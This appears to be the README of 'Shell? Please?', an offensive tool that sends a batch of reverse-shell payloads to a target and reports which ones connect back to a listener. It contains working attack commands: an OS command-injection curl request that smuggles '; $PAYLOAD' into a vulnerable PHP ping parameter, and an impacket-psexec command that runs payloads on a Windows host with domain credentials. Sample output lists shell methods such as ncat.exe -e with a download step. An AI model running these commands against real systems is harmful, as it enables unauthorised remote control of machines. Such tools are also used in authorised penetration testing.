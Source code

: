 # Shell? Please?
This tool checks multiple reverse shell payloads usability.
It opens a local tcp port on the attacking machine, similar to `nc -nlvp`,
then sends predefined payloads with a user supplied carrier
and waits for reverse connections.

## Carrier
The user can supply either a script or a command to carry the payload.

### Command Carrier
```sh
# command carrier should use a PAYLOAD env variable as payload
# note: something is not a real command, fool
shellplease.py --command-carrier "something \$PAYLOAD"
shellplease.py -c "something \$PAYLOAD"
```

### Script Carrier
```sh
shellplease.py -s carrier.sh
```
```sh
#!/bin/sh
# carrier.sh

something $PAYLOAD
```

## Examples
### OS Command Inject via HTTP
Imagine a webpage that executes a shell command with an argument provided by the user
```php
system("ping " . $_GET['ip'])
```

We can use shellplease to see what executables/commands can be used to obtain a reverse shell
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py -H 192.168.1.100 -c "curl http://192.168.1.5/ -G --data-urlencode \"?ip=x; \$PAYLOAD\""
```

Alternatively, we can use a script to carry the payload
```sh
#!/bin/sh
# carrier.sh
curl "http://192.168.1.5/?ip=x; $0"
```

### Command Execution vis PSExec
Now, imagine you have credentials to some user account in a windows/ad environment.
You could use the following:
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py --os windows --local-host 192.168.1.100 -c "impacket-psexec DOMAIN/USER:PASS@192.168.1.5 \"\$PAYLOAD\""
```

Sample output:
```
[+] started http server on 192.168.1.100:55067
[+] started tcp listener on 192.168.1.100:34921
[-] ncat.exe -e w/ download over cmd.exe
[-] ncat.exe -e w/ download over powershell.exe
[-] PHP exec
[-] PHP system
[-] PHP `
[-] PHP popen
[-] PHP proc_open
[+] Windows ConPty
```

## Usage
```
usage: shellplease.py [-h] [-H HOST] [-s CARRIER_SCRIPT] [-c CARRIER_COMMAND] [-C CONFIG] [-os {linux,windows,mac}]
                      [-sh REMOTE_SHELL] [-p PORT] [-P HTTP_SERVER_PORT] [-a] [-ct CONNECTION_TIMEOUT] [-et ECHO_TIMEOUT]
                      [-po]

Shell? Please?

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST, --local-host HOST
                        local host (default: )
  -s CARRIER_SCRIPT, --carrier-script CARRIER_SCRIPT
                        shell script that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -c CARRIER_COMMAND, --carrier-command CARRIER_COMMAND
                        shell command that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -C CONFIG, --config CONFIG
                        .json configuration file location (default: config.json)
  -os {linux,windows,mac}, --os {linux,windows,mac}
                        target operating system (default: linux)
  -sh REMOTE_SHELL, --remote-shell REMOTE_SHELL
                        shell to be executed (default: )
  -p PORT, --port PORT, --local-port PORT
                        local port (default: 0)
  -P HTTP_SERVER_PORT, -hp HTTP_SERVER_PORT, --http-server-port HTTP_SERVER_PORT
                        http port to serve assets (default: 0)
  -a, --all             check all payloads (default: False)
  -ct CONNECTION_TIMEOUT, --connection-timeout CONNECTION_TIMEOUT
                        connection accept timeout in seconds (default: 1)
  -et ECHO_TIMEOUT, --echo-timeout ECHO_TIMEOUT
                        echo check timeout in seconds (default: 3)
  -po, --print-only     print paylods only, don't check. (default: False)
```

